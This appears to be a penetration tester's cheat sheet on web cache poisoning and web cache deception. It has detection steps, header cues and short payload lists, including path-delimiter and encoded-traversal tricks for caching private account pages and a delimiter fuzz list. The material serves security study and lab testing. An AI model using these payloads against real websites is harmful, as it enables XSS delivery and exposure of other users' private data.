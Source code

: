[#](#) Web Cache Poisoning

Get the cached key

    Pragma: x-get-cache-key
 
1. Find a point of injection that is reflected in the response (get param, header, cookie)
2. Confirm that this "point of injection" is not part of the cached keys.
4. Create a payload (xss, redirect, etc...)
    - string from a GET params or cookie (-> escape the string and XSS)
    - host from x-headers-type (-> redirect to exploit server)

### Detecting Cache Response:

* X-Cache
    * X-Cache: miss -> missed the cache (request sent to web server directly)
    * X-Cache: hit  -> hit the cached (not the web server)
    * X-Cache: dynamic -> origin server dynamically generated the content. Generally this means the response is not suitable for caching
    * X-Cache: refresh -> content was outadated

* Cache-Control:
    * Cache-Control: public -> suggests that the resource is cacheable, but cache might overide this header

* Response time might also indicate caching

### Param Miner:

- Guess query params: some query params are excluded from cached key
- Guess everything!

### Payloads Cache Poisoning (OPTIONS, HEAD, GET)

* Pragma: x-get-cache-key
* /?cb=AAAA&utm_content=BBBBB
* /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=arbitraryFunction

### Payloads Cache Deception (OPTIONS, HEAD, GET)

1. /profile
2. /profileAAAA
3. /profile;AAAA
4. /profile;AAAA.css
5. X-Cache: miss

 

1. /AAAA/..%2fmy-account
2. Find folder that are cached (/resources, /assets, /static)
3. /resources/..%2fmy-account
4. X-Cache: miss

 
 
1. /my-account%23AAAA
2. /AAAA/..%2fmy-account
3. Find folder that are cached (/resources, /assets, /static)
4. /AAAA/..%2fresources/labs.css
5. 404 Cache: Miss
6. /resources/..%2fLabs.css
7. 404 (no cache -> cache decode ..%2f)
8. /my-account%23%2f%2e%2e%2fresources (%23 is used for delimiter)

Web Cache Delimiter List: 

`(turn off intruder encoding)`

`(browsers URL-encode characters like {, }, <, and >, and use # to truncate the path. If the cache or origin server decodes these characters)`


```
!
"
#
$
%
&
'
(
)
*
+
,
-
.
/
:
;
<
=
>
?
@
[
\
]
^
_
`
{
|
}
~
%21
%22
%23
%24
%25
%26
%27
%28
%29
%2A
%2B
%2C
%2D
%2E
%2F
%3A
%3B
%3C
%3D
%3E
%3F
%40
%5B
%5C
%5D
%5E
%5F
%60
%7B
%7C
%7D
%7E
%00
%0A
%09
```
